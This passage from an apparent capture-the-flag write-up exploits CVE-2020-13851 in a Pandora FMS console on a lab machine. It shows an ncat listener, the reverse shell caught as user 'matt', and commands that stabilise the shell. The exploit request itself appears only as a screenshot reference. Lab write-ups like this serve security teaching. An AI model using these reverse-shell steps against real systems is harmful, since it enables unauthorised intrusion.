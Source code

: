 With this cookie we are now able to test the first option in the earlier mentioned blogpost, [CVE-2020-13851](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13851). To catch the possible shell we first set up our `ncat` listener.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Next we copy the request from the blogpost, switch the ip to localhost and the cookie to the earlier retrieved one. Sending the request in reapeater it hangs which is a good sign.

[![025_burp_revshell](/img/pandora/025_burp_revshell.png)](/img/pandora/025_burp_revshell.png)

Checking our listener we got a reverse shell as the user matt which we can upgrade for more stable access.

```
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.174.44.
Ncat: Connection from 10.129.174.44:58018.
bash: cannot set terminal process group (1797): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ole$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/var/www/pandora/pandora_console$ export TERM=xterm
export TERM=xterm
matt@pandora:/var/www/pandora/pandora_console$ ^Z
[1]  + 193639 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 193639 continued  nc -lnvp 7575

matt@pandora:/var/www/pandora/pandora_console$
```
